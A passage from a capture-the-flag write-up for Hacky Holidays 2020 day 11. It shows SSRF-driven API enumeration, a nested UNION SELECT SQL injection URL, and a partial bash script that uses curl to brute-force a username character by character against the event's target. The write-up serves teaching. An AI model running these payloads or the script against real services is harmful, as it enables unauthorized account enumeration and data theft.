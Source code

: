     ![IMAGE](/assets/img/posts/hackyholiday2020/day11/day-11-7.png)

#### Finding Valid endpoints and their parameters

1. We can generate the hashes, and we can make the server send request on our behalf, Cool!
2. Now if we query the `/api/*` endpoint, the response was not the previous error, which means now we can enumerate this api for valid endpoints.
3. Now any request that I sent to `/api/*` endpoint the response was always: `"Expected HTTP status 200, Received: 404"`. Which indicates the request is successful, but the resource/endpoint does not exists.
4. Did a little enumeration here, when I sent the request to `/api/user` the response changed to: `"Invalid content type detected"`. This indicates that this is a valid endpoint.
5. Next step was to find the valid parameters, which was quite straight forward as sending the request to `/api/user?username` & `/api/user?password`
   had the response: `"Expected HTTP status 200, Received: 204"`, and for anyother parameters the response was `"Expected HTTP status 200, Received: 400"`.

#### Get valid username and password

1. We have the valid parameters, now we need to find their values. The request for this purpose was as follows: 
   
   https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/album?hash=%27UNION%20SELECT%20"%27UNION%20SELECT%20NULL,NULL,%27../api/user?username=%%27%23",null,null%23 

   **Note that extra "%" after "username=", the % in sql replaces any number of characters - equivalent to '*' in Linux/Unix**

2. First I tried to find the username, and I sent two names, **admin & grinch**. Response for **admin** (or any other value) was `"Expected HTTP status 200, Received: 204"` but for **grinch** it was `"Invalid content type detected"` indicating its correct. To make sure if its the correct username, simply remove the **"%"** after username and if the response is still `"Invalid content type detected"` this means the username is correct otherwise there are more characters to this username.
3. The response was `"Expected HTTP status 200, Received: 204"` which means we have to find the remaining characters of this username. So to do that, I wrote a bash script which does checks for the valid characters and in the end prints out the complete username. Here is the script that I wrote:

    ```bash
    user="grinch";
    check=0;
    cont=1;
    while [ $(echo $cont) == 1 ]; do
	    check=0;
	    for char in $(cat $1)
		do
			curl -s "https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/album?hash=8291%27%20UNION%20SELECT%20%22%27%20union%20select%201,2,%27../api/user?username=$user$char%25%27%23%22,null,null%23" > response.txt; 
			hash=$(cat response.txt | grep data= | cut -d "?" -f2 | cut -d = -f2 | cut -d \" -f1 | tail -n 1)
			curl -s -i "https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/picture?data=$hash" > final.txt
			tail -n 1 final.txt	 | grep "Invalid content type detected" > gotit.txt
            echo -n "$char ";
			if [ -s gotit.txt ]; then
				echo -e "\nValid character found : $char"
				user+=$char
				check=1;
                rm gotit.txt
				break
			fi